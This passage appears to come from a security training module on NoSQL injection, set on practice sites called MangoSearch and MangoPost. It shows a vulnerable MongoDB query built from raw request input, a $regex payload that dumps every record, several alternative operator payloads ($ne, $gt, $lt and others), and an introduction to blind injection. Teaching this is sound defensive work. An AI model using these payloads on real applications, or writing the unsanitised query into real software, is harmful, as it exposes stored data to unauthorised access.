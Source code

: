```javascript
db.types.find({
    name: $_GET['q']
});

```

We want to list out information for `all` types in the collection, and assuming our assumption of how the back-end handles our input is correct, we can use a RegEx query that will match everything like this:

```javascript
db.types.find({
    name: {$regex: /.*/}
});

```

Upon sending the new request, we should see that all mango types and their corresponding facts are listed.

![](https://academy.hackthebox.com/storage/modules/171/mangosearch/2.png)

* * *

## Alternative Queries

- `name: {$ne: 'doesntExist'}`: Assuming `doesntExist` doesn't match any documents' names, this will match all documents.
- `name: {$gt: ''}`: This matches all documents whose name is 'bigger' than an empty string.
- `name: {$gte: ''}`: This matches all documents whose name is 'bigger or equal to' an empty string.
- `name: {$lt: '~'}`: This compares the first character of `name` to a Tilde character and matches if it is 'less'. This will not always work, but it works in this case because Tilde is the [largest printable ASCII value](https://www.asciitable.com/), and we know that all names in the collection are composed of ASCII characters.
- `name: {$lte: '~'}`: Same logic as above, except it additionally matches documents whose names start with `~`.


# Blind Data Extraction

* * *

## MangoPost

In the following two sections, we will look at `MangoPost`. This website is vulnerable to `blind NoSQL injection`, which we will leverage to extract data.

The webpage is a simple package tracking application where you can enter a tracking number and get information about the shipment.

![](https://academy.hackthebox.com/storage/modules/171/mangopost/0.png)
